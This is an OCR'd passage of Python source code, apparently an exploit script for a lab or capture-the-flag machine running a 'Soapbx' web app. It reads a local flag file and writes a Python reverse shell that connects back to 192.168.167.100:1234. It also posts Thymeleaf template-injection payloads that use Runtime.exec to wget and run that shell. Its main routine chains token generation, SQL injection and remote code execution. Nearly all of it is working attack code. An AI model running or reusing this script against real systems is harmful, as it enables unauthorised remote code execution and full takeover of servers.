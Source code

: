 ```python
    printflag = open('lflag.txt', 'r')
    printmyflag = printflag.read()
    printflag.close()
    print("[+] Local flag is:")
    print(printmyflag)
    print("[+] Writing shell to /var/www/html directory....")
    shell = open('/var/www/html/shell.py', 'w')
    ##change IP/port here##
    shell.write("""import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.167.100",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])""")
    shell.close()
    print("[+]Shell written")
    print("[+] Starting apache server to host the shell.....")
    os.system("sudo systemctl start apache2")
    print("[+] waiting 30 seconds for service to start....")
    sleep(30)
    print("[+] apache service started")
    print("[+] Uploading reverse shell....")
    ##change IP/port here##
    s.post("http://192.168.167.157/admin/welcomeEmail/edit", data={"content":"""<html><body><p th:text="@{|Hello ${username}|}">Hello!</p><br/>Soapbx may be our platform, but the content comes from <em>creative people like you</em>. An administrator has created an account for you. Your password is: <p th:text="${password}">password</p><br/> We are excited to see what you create!</body></html><a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('wget http://192.168.167.100/shell.py')}" th:title='pepito'>"""})
    s.post("http://192.168.167.157/admin/users/create", data={"name":"msms", "email":"msms@test.com"})
    print("[+] Executing reverse shell, check listener....")
    ##change IP/port here##
    s.post("http://192.168.167.157/admin/welcomeEmail/edit", data={"content":"""<html><body><p th:text="@{|Hello ${username}|}">Hello!</p><br/>Soapbx may be our platform, but the content comes from <em>creative people like you</em>. An administrator has created an account for you. Your password is: <p th:text="${password}">password</p><br/> We are excited to see what you create!</body></html><a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('python3 shell.py')}" th:title='pepito'>"""})
    s.post("http://192.168.167.157/admin/users/create", data={"name":"abcd", "email":"abcd@test.com"})
    print("[+] stopping apache service....")
    os.system("sudo systemctl stop apache2")
    print("[+] service stopped")
    

def main():
    print("PLEASE RUN WITH ROOT OR SUDO PERMISSIONS")
    print("###################################################")
    print("###################################################")
    print("OPEN NETCAT LISTENER ON 192.168.167.100 ON PORT 1234 TO GET REVERSE SHELL")
    print("###################################################")
    print("###################################################")
    print("IF YOU WISH TO TAKE REVERSE SHELL ON SOME OTHER IP/PORT, PLEASE EDIT THE remote_code_exec FUNCTION ACCORDINGLY")
    print("###################################################")
    print("###################################################")
    generate_token()
    sqli_function()
    remote_code_exec()
```